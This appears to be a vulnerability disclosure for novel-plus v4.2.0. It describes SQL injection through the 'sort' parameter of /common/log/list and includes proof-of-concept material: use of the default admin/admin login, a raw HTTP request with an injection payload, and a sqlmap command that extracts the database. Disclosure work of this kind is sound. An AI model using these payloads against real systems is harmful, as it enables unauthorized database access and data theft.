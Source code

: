 # Vulnerability Submitter

Name：Qinruiqi

GitHub address：https://github.com/JunFengDeng/qinruiqi/blob/main/20231027/vuln/readme.md

# SQL injection vulnerability exists in novel-plus v4.2.0

Affected version: v4.2.0

official website: https://novel.xxyopen.com/index.htm

github: https://github.com/201206030/novel-plus

## Vulnerability Overview

SQL injection vulnerability in Novel-Plus v.4.2.0 allows a remote attacker to execute arbitrary code via a crafted script to the sort parameter in /common/log/list.

## Vulnerability details

Vulnerability route: /common/log/list

Vulnerable parameter: sort

### **Vulnerability source file path 1:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\controller

![1698330555839](../img/1.png)

#### **Vulnerability source file path 2:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\utils\Query.java

![1698330643839](../img/2.png)

#### **Vulnerability source file path 3:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\service\LogService.java

![1698331147638](../img/3.png)

In the LogController class, the @GetMapping("/list") annotation indicates that this method handles GET requests and returns a PageDO<LogDO> object.
In this method, the params parameters obtained from the @RequestParam annotation will be used to construct a Query object and passed to the logService.queryList(query) method for querying.

#### **Vulnerability source file path 4:**

novel-plus-develop_xxy\novel-admin\src\main\resources\mybatis\common\LogMapper.xml

![1698641784640](../img/4.png)

It can be seen that the sort parameter is not verified, filtered, and escaped. An attacker can use malicious input to inject arbitrary SQL code. 

**POC**

"Login to the backend using the default account username/password 'admin/admin' to obtain the administrator cookie."

![1698338638577](../img/5.png)

SQL injection, closure failed, error displayed

![1698340177810](../img/6.png)

SQL injection, successful closure, normal display  

![1698340057189](../img/7.png)

#### **POC**

```http
GET /common/log/list?limit=10&offset=0&sort=(SELECT+(CASE+WHEN+(1=1)+THEN+''+ELSE+(SELECT+1+UNION+SELECT+2)+END))&username HTTP/1.1
Host: 192.168.52.163:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=0e5249e3-d558-4248-9143-d32e992d4804
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Use SQLmap to extract the current database

SQLmap command

```python
python sqlmap.py -u "http://192.168.52.163:8088/common/log/list?limit=10&offset=0&sort=&username=" --cookie "JSESSIONID=0e5249e3-d558-4248-9143-d32e992d4804" -p "sort" --level 3  --current-db --batch
```

![1698340451333](../img/8.png)

